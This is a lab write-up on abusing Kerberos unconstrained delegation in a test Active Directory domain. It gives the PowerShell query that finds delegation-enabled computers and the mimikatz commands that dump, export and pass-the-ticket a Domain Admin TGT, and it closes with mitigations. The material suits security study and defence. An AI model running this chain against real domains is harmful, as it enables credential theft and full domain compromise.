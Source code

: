 # Kerberos Unconstrained Delegation

This lab explores a security impact of unrestricted kerberos delegation enabled on a domain computer.

## Overview

* Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user
* Usually, this privilege is given to computers \(in this lab, it is assigned to a computer IIS01\) running services like IIS, MSSQL, etc. 
* Those services usually require access to some back-end database \(or some other server\), so it can read/modify the database on the authenticated user's behalf
* When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory 
* The reason TGTs get cached in memory is so the computer \(with delegation rights\) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf

Essentially this looks like so:  
`User` --- authenticates to ---&gt; `IIS server` ---&gt; authenticates on behalf of the user ---&gt; `DB server`

{% hint style="warning" %}
Any user authentication \(i.e CIFS\) to the computer with delegation right enabled will get that user's TGT cached in memory which can then be dumped and reused.
{% endhint %}

## Setup

Let's give one of our domain computers/our victim computer `IIS01` unrestricted kerberos delegation privilege:

![](../../.gitbook/assets/screenshot-from-2018-10-29-22-50-27.png)

To confirm/find computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

We can see our victim computer `IIS01` with `TrustedForDelegation` field set to `$true` - we are good to attack:

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-08-06.png)

## Execution

On the computer IIS01 with kerberos delegation rights, let's do a base run of mimikatz to see what we can find in memory:

```csharp
sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-35-01.png)

Note that we do not have a TGT for `offense\administrator` \(Domain Admin\) just yet.

Let's now send an HTTP request to `IIS01` from a `DC01` host from the context of offense\administrator:

```csharp
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

We see the request got a `HTTP 200 OK` response:

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-35-20.png)

Let's check the victim host `IIS01` for new kerberos tickets in memory:

```text
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-40-27.png)

We can see that the IIS01 has now got a TGT for offense\administrator - this means that we have effectively compromised the entire offense.local domain. We will get back to this in a moment.

First, let's export all kerberos tickets from IIS01 memory, so we can load offense\administrator ticket TGT into the current session and assume its privileges:

```csharp
mimikatz::tickets /export
```

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-56-20.png)

..but before we proceed with `pass-the-ticket` attack and become a DA, let's try PSRemoting to the `DC01` from `IIS01` and check currently available kerberos tickets in a current logon session - just to make sure we currently do not have DA rights:

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-49-58.png)

Above screenshow shows that there are no tickets and PSSession could not be established - as expected.

Let's now proceed and import the previously dumped offense\administrator TGT into our current logon session on the `IIS01` host:

```csharp
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-50-40.png)

Once the TGT is imported on IIS01, let's check available tickets and try connecting to the `DC01` again:

![](../../.gitbook/assets/screenshot-from-2018-10-29-23-59-12.png)

As you can see from the above screengrab, the `IIS01` system now contains a `krbtgt` for offense\administrator, which enables this session to access `DC01` C$ share and establish a PSSession with an interactive shell with Domain admin privileges.

### Reminder

Note that successful authentication to ANY service on the IIS01 will cache the authenticated user's TGT. Below is an example of a user `offense\delegate` accessing a share on `IIS01` - the TGT gets cached:

![](../../.gitbook/assets/screenshot-from-2018-10-30-21-40-29.png)

## Mitigation

Some of the available mitigations:

* Disable kerberos delegation where possible
* Be cautious of whom you give privilege **Enable computer and user accounts to be trusted for delegation** - these are users who can enable unrestricted kerberos delagation
* Enable **Account is sensitive and cannot be delegated** for high privileged accounts

## References

{% embed url="https://adsecurity.org/?p=1667" caption="" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" caption="" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" caption="" %}

